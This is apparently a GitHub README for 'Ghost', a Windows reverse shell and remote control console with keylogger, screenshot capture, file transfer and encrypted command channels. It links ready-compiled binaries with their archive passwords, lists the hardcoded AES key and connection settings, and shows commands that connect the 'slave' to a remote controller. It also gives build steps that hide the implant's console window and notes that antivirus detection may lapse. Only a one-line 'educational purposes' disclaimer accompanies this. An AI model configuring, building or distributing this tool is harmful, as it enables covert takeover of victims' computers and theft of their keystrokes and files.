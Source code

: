 # Ghost
Reverse shell and management console for Windows. Communication between the reverse shell and the management console is AES encrypted. Reverse shell and management console support tcp and udp protocols. 


Some of its features are
-------------------------

-Sends commands to cmd and powershell,

-Creates or extracts zip files

-Downloads files from the Internet,

-Supports file upload and download,

-Creates keylogger program,

-Takes a screenshot

-Communication between server and client is AES encrypted.

The compiled version of the program can be downloaded from the links below.
--------------------------------------------------------------------------
1) Compiled without using the "--noconsole" command 
  
  ghost_v4_showconsole.rar ==> zip password: "ghost_v4"

  https://drive.google.com/file/d/1HP1k290aP3AUrUK29sgq-GRfaxSKxcJJ/view?usp=sharing

2) Compiled using the "--noconsole" command

  ghost_v4_noconsole.rar ==> zip password: "ghost_v4"

  https://drive.google.com/file/d/18KQ2JjyOAwZ34Gn_hYyUJMPNq6XeqhhS/view?usp=sharing


Requirements
-------------------
Required libraries:  pycryptodome , requests, pyautogui, pyinstaller

>> pip install pycryptodome

>> pip install  requests

>> pip install pyautogui

>> pip install pyinstaller

"pyinstaller" will be used to make the code one piece executable


Settings
--------------

>> (1) master.py

![master](https://user-images.githubusercontent.com/71177413/162610379-f8baa1f8-050a-4923-90fe-287267a8e994.JPG)

    CRTYPTO_KEY     =  b'A45iPxLo908RYe3Wq034TueWvCxz3618'      # 32 bit(s) AES key  (changeable) [The value for "slave.py" should be the same.]
    CRTYPTO_NUMBER  =  71                                       # Second key to strengthen encryption. It must be between 1 and 128. (changeable) [The value for "slave.py" should be the same.]
    SOCKET_PROTOCOL = "UDP"                                     # "TCP" or "UDP" (changeable)
    SOCKET_HOST     = "0.0.0.0"                                 # This value in "master.py" should not be changed in order for "slave.py" to be connected.
    SOCKET_PORT     = 9292                                      # "slave.py" must be the same port. (changeable)
    SYSTEM_ENCODE   = "cp857"                                   # TURKISH CHARACTER SET (changeable; example utf-8, latin1 etc.)
    SYSTEM_DEFAULTTIMEOUT = 0                                   # No timeout. It is recommended to set the value to "0" for master.py.
    
    
   
   >> (2) slave.py
   
   ![slave](https://user-images.githubusercontent.com/71177413/162610823-5da57505-edf6-44c1-b7a9-74a3062beab6.JPG)
   
    CRTYPTO_KEY     =  b'A45iPxLo908RYe3Wq034TueWvCxz3618'      # 32 bit(s) AES key  (changeable) [The value for "slave.py" should be the same.]
    CRTYPTO_NUMBER  =  71                                       # Second key to strengthen encryption. It must be between 1 and 128. (changeable) [The value for "slave.py" should be the same.]
    SOCKET_PROTOCOL = "UDP"                                     # "TCP" or "UDP" (changeable)
    SOCKET_HOST     = "127.0.0.1"                               # The IP to which "slave.py" will be connected
    SOCKET_PORT     = 9292                                      # "master.py" must be the same port. (changeable)
    SYSTEM_ENCODE   = "cp857"                                   # TURKISH CHARACTER SET
    SYSTEM_DEFAULTTIMEOUT = 300                                 # 5 minutes; It is recommended to be non-zero for "UDP". When the connection is lost or an error occurs, "slave.py" tries to connect again after this period. At the same time, if it does not receive a command from "master.py" within this time, it tries to connect again. Therefore, setting a very low value is also not appropriate.
    
  
>>Except for encryption, these values can be changed with initial parameters if desired.

master.exe -h      ==> Shows help parameters.

slave -h           ==> Not shows help parameters because of the parameter ("--noconsole") used while compiling

Example:

master -udp -c:cp857  -t:00 8080             ==> (8080 port)

master -tcp -c:utf-8  -t:600 9393            ==> (9393 port)

master 7272                                  ==> (7272 port)

slave  -udp -c:cp857  -t:600 1.1.1.1:8080    ==> (1.1.1.1 ip - 8080 port)

slave  -tcp -c:utf-8  -t:00  1.1.1.1:9393    ==> (1.1.1.1 ip - 9393 port)

slave 3.3.3.3:7272                           ==> (3.3.3.3 ip - 7272 port)

![1](https://user-images.githubusercontent.com/71177413/162611487-baabc2aa-2c37-4a9b-b178-74dbb8d08d75.JPG)

![2](https://user-images.githubusercontent.com/71177413/162611490-e24ad077-5b4d-4a33-8ac9-c72f24d91829.JPG)


compilation
------------

(show console for slave.py)

>>pyinstaller --onefile --icon=master.ico master.py

>>pyinstaller --onefile --icon=slave.ico slave.py

or (hide console for slave.py)

>>pyinstaller --onefile --icon=master.ico master.py

>>pyinstaller --onefile --noconsole --icon=slave.ico slave.py


Commands for master.py
-----------------------

>> commands      ==> Shows commands very briefly.

![3](https://user-images.githubusercontent.com/71177413/162611768-9e3e7ad6-298a-4c7d-b907-320f2696003a.JPG)


>> help          ==> Shows commands in detail.

![4](https://user-images.githubusercontent.com/71177413/162611775-ed01e4f7-4dfb-4aa0-a6cb-9b7877528e1f.JPG)


Notes
-------
First, master.py should be run, then slave.py should be run. Otherwise, slave.py will wait for the timeout and try to connect again.



Some images of the working of the program
------------------------------------

[1] 

![5](https://user-images.githubusercontent.com/71177413/162612140-749b42ed-b450-4a60-a43d-00e3f2eea801.JPG)


[2]

![6](https://user-images.githubusercontent.com/71177413/162612197-5cf920c1-8d3e-4647-99b5-a45b408cf275.JPG)


[3]

![11](https://user-images.githubusercontent.com/71177413/162612212-a7019220-d3db-4024-9d3a-f548e902b32b.JPG)


[4]

![7](https://user-images.githubusercontent.com/71177413/162612297-5da94b20-8b7f-40ec-92e4-1733e6a58059.JPG)


[5]

![8](https://user-images.githubusercontent.com/71177413/162612229-110697a1-b587-4bc2-ada1-1742538f4fb1.JPG)


[6]

![10](https://user-images.githubusercontent.com/71177413/162612315-b7bf2aa0-f349-4e85-b22c-aab987ca43d1.JPG)


Windows Defender
-----------------
As of 10/04/2022, It is caught by the Windows Defender program. Over time this will change.


legal warning
------------------
Run your tests on virtual machines. The responsibility for illegal use belongs to the user. Shared for educational purposes.

